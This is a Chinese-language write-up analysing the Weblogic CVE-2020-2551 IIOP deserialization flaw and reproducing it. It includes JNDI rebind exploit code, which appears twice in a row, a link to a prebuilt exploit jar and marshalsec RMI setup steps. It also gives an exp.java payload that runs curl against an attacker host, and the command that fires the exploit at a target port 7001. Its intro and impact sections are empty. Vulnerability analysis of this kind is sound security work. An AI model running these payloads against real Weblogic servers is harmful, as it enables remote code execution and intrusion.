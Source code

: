 （CVE-2020-2551）Weblogic CVE-2020-2551 IIOP协议反序列化rce
-----------------------------------------------------------

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

现在我们来看这个漏洞。IIOP传输的过程中会自动序列化和反序列化，那么我们可以通过向服务器7001端口发送一个恶意的序列化对象，IIOP达到RCE。

发送恶意序列化对象的过程，其实就是bind的过程，由此我们可以构造请求

    Hashtable<String, String> env = new Hashtable<String, String>();
    // add wlsserver/server/lib/weblogic.jar to classpath,else will error.
    env.put("java.naming.factory.initial", "weblogic.jndi.WLInitialContextFactory");
    env.put("java.naming.provider.url", rhost);
    Context context = new InitialContext(env);
    // get Object to Deserialize
    JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
    jtaTransactionManager.setUserTransactionName(rmiurl);
    
    Remote remote = createMemoitizedProxy(createMap("pwned"+System.nanoTime(), jtaTransactionManager), Remote.class);
    context.rebind("Y4er"+System.nanoTime(), remote);
    Hashtable<String, String> env = new Hashtable<String, String>();
    // add wlsserver/server/lib/weblogic.jar to classpath,else will error.
    env.put("java.naming.factory.initial", "weblogic.jndi.WLInitialContextFactory");
    env.put("java.naming.provider.url", rhost);
    Context context = new InitialContext(env);
    // get Object to Deserialize
    JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
    jtaTransactionManager.setUserTransactionName(rmiurl);
    
    Remote remote = createMemoitizedProxy(createMap("pwned"+System.nanoTime(), jtaTransactionManager), Remote.class);
    context.rebind("Y4er"+System.nanoTime(), remote);

你肯定疑惑**JtaTransactionManager**和**weblogic.jndi.WLInitialContextFactory**是从哪来的？

1.  JtaTransactionManager是spring爆出的一个可以JNDI注入的类，在weblogic中也存在。
2.  weblogic.jndi.WLInitialContextFactory 是weblogic的JNDI工厂类。

国际惯例，跟一下流程，IIOP解析数据流的部分看不懂不跟了，从IIOP开始反序列化对象开始

**E:/source/java/Weblogic/src/main/resources/lib/modules/weblogic.jar!/weblogic/iiop/IIOPInputStream.class:1725**

![](resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId25.png)

此时var2是序列化传入的**com.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager**，跟进**readValue()**

![](resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId26.png)

跟进readValueData()，判断是否有readObject方法之后进入自身的readObject()，也就是`om.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager`的readObject

![](resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId27.png)

然后通过反射调用**JtaTransactionManager**的\*\*readObject()\*\*跟进

![](resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId28.png)

到此之后就是Weblogic的CVE-2018-3191 spring
JNDI注入了，简单来说就是lookup()的参数可控，导致可以加载任意类。我们继续跟进**initUserTransactionAndTransactionManager()**

![](resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId29.png)

如果**userTransaction**等于空有**userTransactionName**属性则进入**lookupUserTransaction()**，跟进

![](resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId30.png)

此时\*\*lookup()\*\*参数可控

![](resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId31.png)

**lookup**加载我们的RMI服务，可以注入恶意ip的rmi服务，触发实例化恶意类构造方法调用

### 漏洞复现

    https://github.com/ianxtianxt/CVE-2020-2551

**打包好的jar包**

    https://download.0-sec.org/download/weblogic_CVE_2020_2551.zip

下载jar包，然后使用marshalsec起一个恶意的RMI服务，本地编译一个exp.java

    package payload;
    
    import java.io.IOException;
    
    public class exp {
    
        public exp() {
            String cmd = "curl http://172.16.1.1/success";
            try {
                Runtime.getRuntime().exec(cmd).getInputStream();
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }

**尽量使用和weblogic相同的版本编译** 然后本地起一个web服务器

    python -m http.server --bind 0.0.0.0 80

命令行运行jar包

    java -jar weblogic_CVE_2020_2551.jar 172.16.1.128 7001 rmi://172.16.1.1:1099/exp

实际效果如图

![](resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId33.gif)

参考链接
--------

> https://y4er.com/post/weblogic-cve-2020-2551/
